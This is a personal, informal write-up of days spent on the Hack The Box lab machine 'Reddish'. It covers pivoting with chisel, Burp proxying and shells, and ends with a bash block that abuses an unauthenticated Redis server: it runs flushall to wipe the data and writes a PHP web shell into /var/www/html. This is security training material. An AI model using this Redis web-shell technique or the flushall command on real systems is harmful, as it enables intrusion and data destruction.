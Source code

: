 We need another shell for Day 8 and something I realised was is that the inital shell with `[object Object]` can make more shells. This seems CTFy  `nohup` and `&` with both I discover from [hexadix](https://hexadix.com/use-nohup-execute-commands-background-keep-running-exit-shell-promt/) so I could also now do the same with meterpreter for the metasploit `portfwd` command with `meterpreter`
![](chiselisnowajob.png)

Then I need to reconfigure burpsuite for a SOCKs proxy, returning to redo the webshell that I never saved...
![](pittytheunsavedfool.png)
Making sure to name the file correctly....and subscribe to ippsec harder
![](subscribetoippsecharder.png)

File is there

![](flabberghaster.png)

Burpsuite was irrating me, also reddish I need to keep the connection open as it is in the cache of redis.
![](burpisirratingme.png)

Ippsec and 0xDF initally check the networking in prioritising pre reverse shell. Ping will not return back. This is were I am completely unknown territory as to pivoting through. [[Hololive-Writeup]] has some of this, but through C2s so multiple manual approaches is now an additional requirement for my beyond rooting of this box. 

Also to make matter worse/better (in that I do not have to cleanup afterward) the Server also cleans up so we have continuously create the web shell. Also burpsuites URL encoding is a kicker where I need both to work for some time.. Also learnt how to add the video into markdown. 

<iframe width="560" height="315" src="https://www.youtube.com/embed/Yp4oxoQIBAM" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" allowfullscreen></iframe>


Instead I am going to watch the xct and ippsec version of their writeups for the Anubis machine as it pivot through a container with chisel and proxychains and burp for one day forgetting all the steps and doing the box without any real idea of the box for: [[Anubis-Writeup]]

Returning for Day 9 of the slow march through Reddish I decided that once again burpsuite was being either misconfigured by myself as I have not done this since the settings search feature of burpsuite, which is awesome , but I then decided to use cyberchef as xct uses cyberchef for encoding and the wonders of curl. My chisel usage is spot on again it is my configuration of burp. 

![1080](curlbutnoburp.png)

Trials and Trials continue on I suppose. Reiterating again because this is not a true writeup.
![](ipaof1271904.png)

1. Reddish exploit:
```bash
nc localhost 6379 
echo "Hey no AUTH required!"
flushall
set subscribetoippsec "<? system($_REQUEST['cmd']); ?>"
config set dbfilename cmd.php
config set dir /var/www/html
save
# Then do not be an idiot and save it...
# 0xDF 

# 0xdfreddishRCE.sh
#!/bin/bash

# https://0xdf.gitlab.io/2019/01/26/htb-reddish.html#webshell
redis-cli -h 127.0.0.1 flushall
```